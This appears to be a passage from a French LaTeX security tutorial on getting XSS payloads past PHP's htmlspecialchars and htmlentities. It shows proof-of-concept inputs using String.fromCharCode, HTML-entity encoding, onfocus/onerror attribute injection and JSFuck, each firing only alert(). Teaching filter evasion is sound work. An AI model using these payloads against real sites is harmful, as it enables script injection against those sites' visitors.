
\includegraphics[width=\textwidth]{xss1}
}}
\vspace{0.2cm}

Le problème ici est que nous sommes bloqué dans la balise sur lequel le script est posé et il n'y a aucune manière de sortir de cette dernière. Cependant, il y a tout de même une bonne nouvelle, le texte ne sera pas considéré comme un lien, cela est donc complètement invisible si la personne ne fait pas attention au source code.

\subsection{XSS - Bypass htmlspecialchars et htmlentities avec l'encoding UTF-8}

En javascript, il existe une methode bien pratique pour convertir des valeurs unicode en caractère : fromCharCode(). Pour plus d'information sur cette fonction, la documentation de w3schools est largement suffisante : http://www.w3schools.com/jsref/jsref\_fromCharCode.asp\\

Posons le problème suivant, je veux afficher du texte dans mon "alert". Si on essaye de rentrer ce code de la manière ci-dessous dans notre code, dans certains cas, cela sera inutile :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
javascript:alert('Latsuj');\\
ou encore\\
javascript:alert("Latsuj");
}}
\vspace{0.2cm}

Dans le premier cas, vous remarquerez que cela ne marche pas dans le cas 1 quand il n'y pas de protection. Et dans le deuxième cas, vous remarquerez que cela ne marche pas dans le cas 2 lorsque les fonctions de protections sont actives. Sur un vrai site, vous ignorez les protections et la manière dont le site est codé, il faut donc testé de nombreuses choses. Pour gagner du temps la méthode fromCharCode est très utile. Entrons maintenant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
javascript:alert(String.fromCharCode(76,97,116,115,117,106));
}}
\vspace{0.2cm}

L'ensemble des codes écrit suivant les normes UTF-8 sont retranscrit en caratères. Pour plus d'information sur UTF-8 et sur les différents code : https://en.wikipedia.org/wiki/UTF-8\\
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{xss2}
}}
\vspace{0.2cm}

Hop là ! On passe tous les cas avec succès !\\

Un autre type de forme peut être réaliser pour écrire les caractères avec UNICODE. Le code suivant montre un bel exemple des différents encodage possible pour réaliser une alerte :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
{\scriptsize \&\#0000106\&\#0000097\&\#0000118\&\#0000097\&\#0000115\&\#0000099\&\#0000114\&\#0000105\&\#0000112\&\#0000116 \&\#0000058\&\#0000097\&\#0000108\&\#0000101\&\#0000114\&\#0000116\&\#0000040\&\#0000039\&\#0000088\&\#0000083 \&\#0000083\&\#0000039\&\#0000041}
\vspace{0.2cm}\\
ou encore
\vspace{0.2cm}\\
{\scriptsize \&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116; \&\#40;\&\#39;\&\#88;\&\#83;\&\#83;\&\#39;\&\#41;}
\vspace{0.2cm}\\
ou encore
\vspace{0.2cm}\\
{\scriptsize \&\#x6A\&\#x61\&\#x76\&\#x61\&\#x73\&\#x63\&\#x72\&\#x69\&\#x70\&\#x74\&\#x3A\&\#x61\&\#x6C\&\#x65 \&\#x72\&\#x74\&\#x28\&\#x27\&\#x58\&\#x53\&\#x53\&\#x27\&\#x29}
}}
\vspace{0.2cm}

Cependant, dans le cas là, les fonctions htmlspecialchars et htmlentities filtreront les caractères \&. L'intérêt est donc bien mince. D'après mes recherches, ce genre d'attaque peut etre utilisé lorsque le développeur à réalisé une mauvaise fonction de filtrage. Mais dans ce cas là, pourquoi n'utiliserait-il pas les fonctions htmlspecialchars ou htmlentities ?

\subsection{XSS - Bypass htmlspecialchars et htmlentities avec des espaces}

Sur certains site, il n'y parfois aucun encoding sur les espaces, il n'y a pas de guillemets qui se succède ou encore aucun filtre sur les guillemets simple. Ce qui permet d'injecter du javascript avec un simple espace et les HTML DOM event, comme l'exemple ci-dessous :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
XSS autofocus onfocus=alert(1)
}}
\vspace{0.2cm}

Les espaces feront que le champ href sera égale à XSS puis l'autofocus et onfocus seront donc des éléments de la balise. Ainsi l'autofocus permettra d'exécuter automatiquement le script situé dans le champ onfocus. On s'affranchit ainsi de la restriction de la balise. Effectuons un petit exemple avec la fonction onmouseover suivante : XSS onmouseover=alert(1)
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{xss3}
}}
\vspace{0.2cm}

Une autre manière de procéder est d'utiliser le tag onerror dans une image afin de lancer automatiquement les scripts contenus dans les balises IMG. Par exemple :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
SRC=\# onerror=alert(1)
}}
\vspace{0.2cm}

Ce qui permet d'obtenir le résultat suivant qui s'affichera automatiquement :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{xss4}
}}
\vspace{0.2cm}

\subsection{XSS - Bypass htmlspecialchars et htmlentities avec JSFuck}

JSFuck est un langage de programmation méconnu qui se base sur le noyau de javascript pour fonctionner. Pour plus d'informations concernant ce langage, je vous renvoie au site des créateurs : http://www.jsfuck.com\\
Le langage repose sur quelques caratères qui ne sont pas filtré par les fonctions htmlspecialchars et htmlentities, il est donc très facile de faire des XSS avec ce dernier. Le seul problème est que cela demande un nombre de caractère important, il est donc impossible de l'utiliser sur des requêtes GET. Sur le site précédemment copier/coller la chaine affiché qui est normalement celle du alert(1).\\

Vous devriez obtenir une très longue chaine de 1227 caractères qui correspondent à notre simple petit script. On peux alors utiser le script suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
javascript:[][(![]...et la suite de la chaine
}}
\vspace{0.2cm}
	
Ce qui permet d'obtenir le résultat suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{xss5}
}}
\vspace{0.2cm}

\newpage
\section{Pour aller plus loin...}
\subsection{CVE-2015-XXXX - PHP - NULL Char}

